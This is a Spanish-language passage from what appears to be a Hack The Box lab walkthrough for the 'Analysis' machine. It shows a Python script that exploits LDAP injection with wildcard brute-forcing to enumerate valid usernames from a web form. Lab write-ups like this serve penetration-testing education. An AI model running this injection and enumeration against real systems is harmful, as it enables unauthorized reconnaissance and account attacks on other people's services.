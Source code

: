En este primer script de prueba, testearemos como funciona la página web y en qué campos se almacena el valor del "username" para quedarnos con ese dato.

En este caso, hemos parado el script con **pdb.set\_trace()** y al ejecutar el script, mostraremos el contenido de **r.text**, comprobamos que el usuario se almacena entre las etiquetas "\<strong>".

A través de **re.findall** nos quedaremos con el valor que hay entre las etiquetas "\<strong>".

<figure><img src="../../../../../.gitbook/assets/1629_vmware_0dd0Zipgdo.png" alt=""><figcaption></figcaption></figure>

Esto sería lo mismo que revisarlo des de la página misma con (Ctrl + U).

<figure><img src="../../../../../.gitbook/assets/1628_vmware_a8dxYmSMG0.png" alt=""><figcaption></figcaption></figure>

### Discovering valid users through LDAP Injection

Crearemos el siguiente script en Python que a través de fuerza bruta, irá enumerando usuarios válidos de LDAP a través del formulario haciendo uso de **LDAP Injection**, utilizando el \* como comodín.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    time.sleep(2)

    for first_character in characters:
        for second_character in characters:
            p1.status(main_url + f"{first_character}{second_character}*")
            r = requests.get(main_url + f"{first_character}{second_character}*")
            username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

            if "CONTACT_" not in username:
                print(colored(f"[+] Valid user: {colored(username, 'blue')}", 'yellow'))

if __name__ == '__main__':
    ldapInjection()
```

